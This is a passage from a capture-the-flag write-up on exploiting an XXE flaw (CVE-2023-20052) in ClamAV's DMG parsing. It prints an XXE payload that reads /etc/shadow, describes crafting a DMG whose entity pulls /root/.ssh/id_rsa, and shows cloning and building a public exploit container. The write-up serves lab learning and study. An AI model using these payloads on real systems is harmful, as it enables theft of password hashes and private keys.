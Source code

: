 An [XXE POC for file disclosure](https://github.com/payloadbox/xxe-injection-payload-list#xxe-file-disclosure) looks like this:

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>

```

I’ll edit the `DOCTYPE` in the DMG to create an entity that references `/root/.ssh/id_rsa`:

![image-20230510172620920](https://0xdf.gitlab.io/img/image-20230510172620920.png)

I’ve used spaces to pad out the extra stuff. I am using a variable `df` such that when I reference it later as `&df;`, it takes four characters, the same length as `plst`. Down the file a bit, I’ll find the `plst` key and modify it:

![image-20230510170430588](https://0xdf.gitlab.io/img/image-20230510170430588.png)

#### Exploit

I’ll upload this file again, and run it just like before. Where before it said “text value is plst”, now it has the private key:

![image-20230510172335764](https://0xdf.gitlab.io/img/image-20230510172335764.png)

### Public Exploit

Not long after the release of Snoopy, nokn0wthing put out [this repo](https://github.com/nokn0wthing/CVE-2023-20052). It has a Docker container that will generate the DMG file for me.

Following the instructions in the repo, I’ll clone it and build the container:

```
oxdf@hacky$ git clone https://github.com/nokn0wthing/CVE-2023-20052.git
Cloning into 'CVE-2023-20052'...
remote: Enumerating objects: 15, done.
remote: Counting objects: 100% (15/15), done.
remote: Compressing objects: 100% (14/14), done.
remote: Total 15 (delta 4), reused 4 (delta 0), pack-reused 0
Receiving objects: 100% (15/15), 47.69 KiB | 2.17 MiB/s, done.
Resolving deltas: 100% (4/4), done.
oxdf@hacky$ cd CVE-2023-20052/
oxdf@hacky$ docker build -t cve-2023-20052 .
...[snip]...

```

I’ll drop into the container, mounting the current directory in as the `/exploit` directory:

```
oxdf@hacky$ docker run -v $(pwd):/exploit -it cve-2023-20052 bash
root@c1cff2f4ad04:/exploit#

```
